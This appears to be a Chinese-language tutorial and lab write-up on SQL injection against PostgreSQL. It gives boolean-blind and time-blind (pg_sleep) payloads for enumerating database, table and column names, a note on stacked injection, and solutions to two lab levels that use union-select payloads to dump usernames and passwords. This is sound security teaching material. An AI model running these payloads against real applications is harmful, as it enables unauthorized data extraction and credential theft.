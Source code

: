 #### 布尔盲注

利用**ascii()**、**substring()**、**between**（或者用等于号 = 判断）

```sql
判断数据库名长度：
1' and (select length(current_database())) between 0 and 14 --+判断数据表的个数：
1' and (select count(*) from pg_stat_user_tables) between 0 and 4 --+判断数据库的名：
1' and (select ascii(substr(current_database(),1,1))) between 0 and 118--+判断表名长度：
1' and (select length(relname) from pg_stat_user_tables limit 1 OFFSET 0) between 0 and 5--+判断表名：
1' and  (select ascii(substr(relname,1,1)) from pg_stat_user_tables limit 1 OFFSET 0) between 0 and 117--+判断列名：
1' and  (select ascii(substr(column_name,1,1)) from information_schema.columns where table_name='users' limit 1 OFFSET 0) between 0 and 110 --+……………………
```

原理啥的应该不用说了，如果不知道建议看前面的**MySQL**文章循序渐进。

#### 时间盲注

找一个替代**MySQL**中**sleep()**或者**benchmark()**作用的函数-----**pg_sleep()**。

```sql
查库：
1 and (case when(ascii(substr((select datname from pg_database limit 1),1,1))=97) then (select 5 from pg_sleep(5)) else 1 end)查表：
1 and (case when(ascii(substr((select relname from pg_stat_user_tables limit 1 offset 0),1,1))=97) then (select 5 from pg_sleep(5)) else 1 end)查列：
1 and (case when(ascii(substr((select column_name from information_schema.columns where table_name="users" limit 1 offset 0),1,1))=97) then (select 5 from pg_sleep(5)) else 1 end)查字段：
1 and (case when(ascii(substr((select password from users limit 1 offset 0),1,1))=97) then (select 5 from pg_sleep(5)) else 1 end)
```

#### 堆叠注入

只要一句sql语句有个结束标志，且网站对**sql语句**的执行条数没有限制，**堆叠注入**是最简单方便的

## [题解]

##### level 2

数字型

```sql
-1 union select 1,2,group_concat(username,password) from users--+
```

##### level 3

1' 报错：

 ''1'') LIMIT 0,1' at line 1  

```sql
-1') union select 1,2,group_concat(username,password) from users--+
```

